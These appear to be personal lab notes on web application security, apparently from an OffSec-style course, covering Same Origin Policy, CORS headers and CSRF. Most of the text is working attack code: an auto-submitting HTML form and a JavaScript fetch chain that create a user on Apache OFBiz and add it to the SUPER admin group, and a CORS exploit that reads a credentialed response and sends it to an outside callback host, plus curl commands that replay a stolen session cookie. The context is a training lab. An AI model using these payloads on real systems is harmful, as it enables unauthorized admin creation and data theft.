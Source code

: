 ### Same Origin Policy 
SOP blocks JavaScript and our browsers from accessing cross-origin resources, but it does not block the outgoing requests for such resources、

if the cookie has SameSite=Lax, the browser will not send it even if the preflight request indicates that the destination server allows credentials on CORS requests.
```
URL	RESULT	REASON
https://foo.com/myInfo	Allowed	Same Origin
http://foo.com/users.json	Blocked	Different Scheme and Port
https://api.foo.com/info	Blocked	Different Domain
https://foo.com**:8443**/files	Blocked	Different Port
https://bar.com/analytics.js	Blocked	Different Domain
```
### curl requesting cors settings
```
curl -v -X OPTIONS http://192.168.154.155/exercise2
```
### Servers can set several headers1 to enable CORS
```
Access-Control-Allow-Methods: GET, POST, OPTIONS
Access-Control-Allow-Origin: https://offensive-security.com
Access-Control-Allow-Credentials: true
Access-Control-Allow-Headers: X-UserId
```
### CSRF(local test require apache2 service)
burp traffic of add user 
```
POST /webtools/control/createUserLogin HTTP/1.1
Host: ofbiz:8443
Connection: close
Content-Length: 178
Cache-Control: max-age=0
sec-ch-ua: ";Not A Brand";v="99", "Chromium";v="88"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
Origin: https://ofbiz:8443
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.150 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://ofbiz:8443/webtools/control/createnewlogin
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: JSESSIONID=76A7BCC53C2B9BF49B21F99D2D8CA5D5.jvm1; OFBiz.Visitor=10000

enabled=&partyId=&userLoginId=test&currentPassword=password&currentPasswordVerify=password&passwordHint=&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=
```
Create html payload ofbiz.html
```
<html>
<body onload="document.forms['csrf'].submit()">
  <form action="https://ofbiz:8443/webtools/control/createUserLogin" method="post" name="csrf">
  <input type="hidden" name="enabled">
  <input type="hidden" name="partyId">
  <input type="hidden" name="userLoginId" value="test">
  <input type="hidden" name="currentPassword" value="password">
  <input type="hidden" name="currentPasswordVerify" value="password">
  <input type="hidden" name="passwordHint">
  <input type="hidden" name="requirePasswordChange" value="N">
  <input type="hidden" name="externalAuthId">
  <input type="hidden" name="securityQuestion">
  <input type="hidden" name="securityAnswer">
  </form>
</body>
</html>
```
Use js to make request
```
<html>
<head>
<script>
  var username = "csrftest2";
  var password = "password";
  var host = "https://ofbiz:8443";
  var create_url = "/webtools/control/createUserLogin";
  var admin_url = "/webtools/control/userLogin_addUserLoginToSecurityGroup";
  var create_params = "enabled=&partyId=&userLoginId=" + username + "&currentPassword=" + password + "&currentPasswordVerify=" + password + "&passwordHint=hint&requirePasswordChange=N&externalAuthId=&securityQuestion=&securityAnswer=";
  var admin_params = "userLoginId=" +username + "&partyId=&groupId=SUPER&fromDate_i18n=&fromDate=&thruDate_i18n=&thruDate=";
  function send_create() { 
  console.log("Creating user..."); 
  fetch(host+create_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body : create_params }
  ).then(function(response) {
    send_admin();
  }); 
}

function send_admin() { 
  console.log("Adding admin role..."); 
  fetch(host+admin_url, {
    method: 'POST',
    mode: 'no-cors',
    credentials: 'include',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded' 
    },
    body : admin_params }
  ).then(
    console.log("Should be done...") 
  );
}

send_create();
</script>
</head>
<body></body>
</html>
```
### Trusting any domain 
```
<html>
<head>
<script>
var url = "https://cors-sandbox/exercise1";
function get_code() {
  fetch(url, {
    method: 'GET',
    mode: 'cors',
    Cookie: 'SessionCookie=1123581321345589144',
    credentials: 'include',
    Origin: 'hellocors'
  })
  .then(response => response.json())
  .then(data => {
    fetch('http://192.168.45.242/callback?' +  encodeURIComponent(JSON.stringify(data)), {
      mode: 'no-cors'
    });
    console.log(data);
  });
}
get_code();
</script>
</head>
<body></body>
</html>
```
### Improper domain allow list
finding the allowed domain
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/882aaba3-c6b4-472c-9c3b-32efb60803b8)
![image](https://github.com/KiritoLoveAsuna/WebApplicationSecurity/assets/38044499/ba46f78b-79d8-4cc5-b6d0-8d10ff7ef7bc)
```
curl -X "OPTIONS" -i -k https://cors-sandbox/allowlist
curl -X "OPTIONS" -i -H "Origin: http://www.offensive-security.com" -k https://cors-sandbox/allowlist
```
get the cookie
```
chrome access https://cors-sandbox/
dev tools - > network - cookies
```
get the flag 
```
curl -X "GET" -v -k -H "Origin: https://www.offensive-security.com" -H "Cookie: SessionCookie=1123581321345589144" https://cors-sandbox/exercise2
```
